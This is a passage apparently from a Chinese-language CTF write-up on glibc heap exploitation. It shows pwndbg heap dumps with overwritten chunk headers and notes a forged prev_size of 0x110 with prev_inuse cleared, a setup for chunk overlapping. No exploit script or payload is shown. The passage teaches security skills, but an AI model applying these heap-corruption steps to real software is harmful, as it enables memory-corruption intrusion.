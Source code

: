 ```C
0x56299f4065d0      0x6161616161616161  0x100                Freed     0x7f01a7875da0    0x7f01a7875da0
0x56299f4066d0      0x100               0x10                 Freed              0x110              0x60
```

如上主要部分，我们已经成功获得chunk size为0x100的chunk，同时prev_size=0x110;prev_inuse=0任然保持

```C
pwndbg> parseheap
addr                prev                size                 status              fd                bk                
0x56299f406000      0x0                 0x250                Used                None              None
0x56299f406250      0x0                 0x80                 Freed                0x0              None
0x56299f4062d0      0x0                 0x80                 Freed     0x56299f406260              None
0x56299f406350      0x0                 0x80                 Freed     0x56299f4062e0              None
0x56299f4063d0      0x0                 0x80                 Freed     0x56299f406360              None
0x56299f406450      0x0                 0x80                 Freed     0x56299f4063e0              None
0x56299f4064d0      0x0                 0x80                 Freed     0x56299f406460              None
0x56299f406550      0x0                 0x80                 Freed 0x61616161616161610x6161616161616161
0x56299f4065d0      0x6161616161616161  0x100                Freed     0x7f01a7875da0    0x7f01a7875da0
0x56299f4066d0      0x100               0x10                 Freed              0x110              0x60
0x56299f4066e0      0x110               0x60                 Freed                0x0              None
0x56299f406740      0x3131313131313131  0x60                 Freed     0x56299f4066f0              None
0x56299f4067a0      0x3131313131313131  0x60                 Freed     0x56299f406750              None
0x56299f406800      0x3131313131313131  0x60                 Freed     0x56299f4067b0              None
0x56299f406860      0x3131313131313131  0x60                 Freed     0x56299f406810              None
0x56299f4068c0      0x3131313131313131  0x60                 Freed     0x56299f406870              None
0x56299f406920      0x3131313131313131  0x60                 Freed     0x56299f4068d0              None
0x56299f406980      0x3131313131313131  0x30                 Freed                0x0              None
0x56299f4069b0      0x3131313131313131  0x30                 Freed     0x56299f406990              None
0x56299f4069e0      0x3131313131313131  0x30                 Freed     0x56299f4069c0              None
0x56299f406a10      0x3131313131313131  0x30                 Freed     0x56299f4069f0              None
0x56299f406a40      0x3131313131313131  0x30                 Freed     0x56299f406a20              None
0x56299f406a70      0x3131313131313131  0x30                 Freed     0x56299f406a50              None
0x56299f406aa0      0x3131313131313131  0x30                 Freed     0x56299f406a80              None

```
